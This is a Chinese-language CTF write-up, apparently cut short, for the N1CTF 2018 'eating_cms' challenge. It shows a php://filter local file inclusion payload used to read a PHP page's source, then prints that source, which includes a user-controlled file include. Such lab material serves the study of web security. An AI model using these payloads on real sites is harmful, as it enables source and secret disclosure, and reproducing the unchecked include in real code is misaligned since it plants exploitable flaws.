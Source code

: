 ## [N1CTF 2018]eating_cms

首先我们先访问 `/register.php` 注册一个账号

然后登录时抓包：（好像没啥用）

![image-20230414232759433](https://raw.githubusercontent.com/leekosss/photoBed/master/202304142327608.png)

登录进去后，观察到了url：

```
http://28cccbf3-a44a-489b-bd83-4c91fd1d739e.node4.buuoj.cn:81/user.php?page=guest
```

`page=guest`，看起来应该是文件包含，我们尝试一下文件包含漏洞：

获取user.php源码

```
user.php?page=php://filter/convert.base64-encode/resource=user
```

![image-20230414233012336](https://raw.githubusercontent.com/leekosss/photoBed/master/202304142330547.png)

user.php

```php
<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");

}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>
```
